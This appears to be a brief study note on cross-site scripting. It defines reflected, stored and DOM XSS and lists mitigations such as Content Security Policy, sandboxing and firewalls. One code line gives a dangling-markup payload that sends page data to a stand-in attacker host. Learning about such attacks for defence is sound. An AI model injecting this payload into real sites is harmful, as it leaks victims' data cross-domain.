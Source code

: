 # Cross-Site Scripting (XSS)

**Impact**

Allows attacker to:
- circumvent same origin policy
- masquerade as victim
- access victim's data

## XSS Type

### Reflected XSS
When an application receives data in an HTTP request and includes the data in the immediate response in an unsafe way.

### Stored XSS
When an application receives data and includes the data in an unsafe manner in later responses.

### DOM XSS
When an application contains client-side JavaScript that processes data in an unsafe way.

## Extension of XSS attack

### Dangling Markup Injection
Technique for captureing data cross-domain in situations where a full XSS attack is not possible.
Inject payload like below to tags that contain value that is unfiltered.
```
"><img src='//attacker-website.com?
```

## Mitigation Type

### Content Security Policy
CSP is a set of directives that control which resources a web page can load, such as JavaScript, CSS, and images. When a website specifies a CSP, the browser blocks requests for assets that don't come from the specified sources.

### Browser Sandbox
Present the content of the webpage on another domain so if an XSS vulnerability exist the JavaScript will not execute on the important domain.

### Web Application Firewall
Using WAF to directly filter out potentially malicious input.
